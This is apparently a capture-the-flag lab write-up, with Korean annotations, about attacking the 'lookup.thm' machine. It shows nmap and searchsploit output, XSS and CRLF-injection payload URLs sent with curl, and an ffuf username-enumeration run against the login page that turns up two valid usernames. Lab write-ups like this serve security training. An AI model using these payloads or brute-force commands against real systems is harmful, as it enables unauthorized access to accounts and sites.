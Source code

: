 # 10.10.230.8

22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 d5:56:b3:f3:b2:00:86:2d:6d:15:3a:0e:71:7e:c4:8b (RSA)
| 256 7f:3b:7c:3c:91:bb:71:80:a6:8a:21:af:01:94:09:50 (ECDSA)
|\_ 256 3f:b9:54:e9:29:90:97:be:ec:fe:b2:d0:7e:90:c9:ce (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|\_http-title: Did not follow redirect to http://lookup.thm
|\_http-server-header: Apache/2.4.41 (Ubuntu)

searchsploit httpd 2.4

---

Exploit Title | Path

---

Apache 2.4.23 mod_http2 - Denial of Service | linux/dos/40909.py
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution | multiple/webapps/50383.sh
Omnicron OmniHTTPd 1.1/2.4 Pro - Remote Buffer Overflow | windows/remote/19566.c
OmniHTTPd 1.1/2.0.x/2.4 - 'test.php' Sample Application Cross-Site | windows/remote/21753.txt
OmniHTTPd 1.1/2.0.x/2.4 - Sample Application URL Encoded Newline H | windows/remote/21757.txt
OmniHTTPd 1.1/2.0.x/2.4 - test.shtml Sample Application Cross-Site | windows/remote/21754.txt
OpenBSD HTTPd < 6.0 - Memory Exhaustion Denial of Service | openbsd/dos/41278.txt

---

──(root㉿docker-desktop)-[/usr/share/exploitdb/exploits/windows/remote]

# cat 21753.txt

source: https://www.securityfocus.com/bid/5568/info

Cross site scripting vulnerabilities have been reported in multiple sample scripts including with OmniHTTPD. In particular, test.shtml and test.php contain errors.

This type of vulnerability may be used to steal cookies or perform other web-based attacks.

http://localhost/test.php?%3CSCRIPT%3Ealert%28document.URL%29%3C%2FSCRIPT%3E=x
┌──(root㉿docker-desktop)-[/usr/share/exploitdb/exploits/windows/remote]
└─#

# cat 21757.txt

source: https://www.securityfocus.com/bid/5572/info

OmniHTTPD is a webserver for Microsoft Windows operating systems. OmniHTTPD supports a number of CGI extensions which provide dynamic content.

A HTML injection vulnerability has been reported in the '/cgi-bin/redir.exe' sample CGI included with OmniHTTPD. Reportedly, it is possible for an attacker to URL encode the newline character (%0D) and insert malicious HTML code. A vulnerable server receiving a malformed request will return a 302 redirect HTTP response containing the malicious attacker-supplied code.

http://localhost/cgi-bin/redir.exe?URL=http%3A%2F%2Fwww%2Eyahoo%2Ecom%2F%0D%0A%0D%0A%3CSCRIPT%3Ealert%28document%2EURL%29%3C%2FSCRIPT%3E

curl -L "http://lookup.thm/cgi-bin/redir.exe?URL=http%3A%2F%2Fwww%2Eyahoo%2Ecom%2F%0D%0A%0D%0A%3C
SCRIPT%3Ealert%28document%2EURL%29%3C%2FSCRIPT%3E"

http://localhost/cgi-bin/redir.exe?URL=http://www.yahoo.com/

curl -L "http://lookup.thm/cgi-bin/redir.exe?URL=http://www.yahoo.com/"

<SCRIPT>alert(document.URL)</SCRIPT>

# cat 21754.txt

source: https://www.securityfocus.com/bid/5568/info

Cross site scripting vulnerabilities have been reported in multiple sample scripts including with OmniHTTPD. In particular, test.shtml and test.php contain errors.

This type of vulnerability may be used to steal cookies or perform other web-based attacks.

http://localhost/test.shtml?%3CSCRIPT%3Ealert(document.URL)%3C%2FSCRIPT%3E=x
curl -L "http://lookup.thm/test.shtml?%3CSCRIPT%3Ealert(document.URL)%3C%2FSCRIPT%3E=x"

# ffuf

ffuf -w xato-net-10-million-passwords-10000.txt -X POST -u http://lookup.thm/login.php -d 'userna
me=FUZZ&password=asdf' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -fs 74

- fw 10 : 응답 본문의 단어 수가 10이면 핕터링
- fs 74 : 응답 사이즈가 74는 필터링

┌──(root㉿codespaces-d5df79)-[/usr/share/seclists/Passwords/Common-Credentials]
└─# ffuf -X POST -u http://lookup.thm/login.php -d 'username=FUZZ&password=a' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -w 10-million-password-list-top-100000.txt -fs 74 -o /ffuf-passwd.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev

---

:: Method : POST
:: URL : http://lookup.thm/login.php
:: Wordlist : FUZZ: /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt
:: Header : Content-Type: application/x-www-form-urlencoded; charset=UTF-8
:: Data : username=FUZZ&password=a
:: Output file : /ffuf-passwd.txt
:: File format : json
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
:: Filter : Response size: 74

---

admin [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 192ms]
jose [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 194ms]
